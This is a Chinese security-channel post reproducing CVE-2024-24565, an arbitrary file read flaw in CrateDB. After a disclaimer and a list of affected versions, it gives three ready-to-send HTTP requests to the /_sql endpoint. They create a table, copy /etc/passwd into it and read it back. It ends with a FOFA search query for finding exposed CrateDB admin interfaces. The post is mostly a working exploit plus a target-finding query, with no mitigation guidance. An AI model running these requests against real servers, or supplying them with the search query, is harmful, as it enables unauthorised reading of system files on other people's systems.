 #  CrateDB数据库任意文件读取漏洞复现-CVE-2024-24565   
小白菜安全  小白菜安全   2024-02-21 17:30  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
5.4.0<=io.crate:crate<5.4.8,5.6.0<=io.crate:crate<5.6.0,io.crate:crate<5.3.9,5.5.0<=io.crate:crate<5.5.4  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia30f6ngiajDvhsylhibBB2CBRkzbLWjJFbibVSNzgoh700WicvYJAUxtFLCqPx4kLJ4UA8me3ic8G3QmNA/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
**poc**  
  
**1.创建数据表**  
```
POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"CREATE TABLE info_leak(info_leak STRING);"}
```  
  
2.复制文件信息  
```
POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);"}
```  
  
3.读取数据  
```

POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"SELECT * FROM info_leak;"}
```  
  
出现以下信息代表漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia30f6ngiajDvhsylhibBB2CBR4icQnDFN6hibIiazhRQunfGIUCwx3FMAGEicqSuelSWVeaKg27BiaJfIogA/640?wx_fmt=png&from=appmsg "")  
# 搜索语法  
  
**fofa：title="CrateDB Admin UI"**  
  
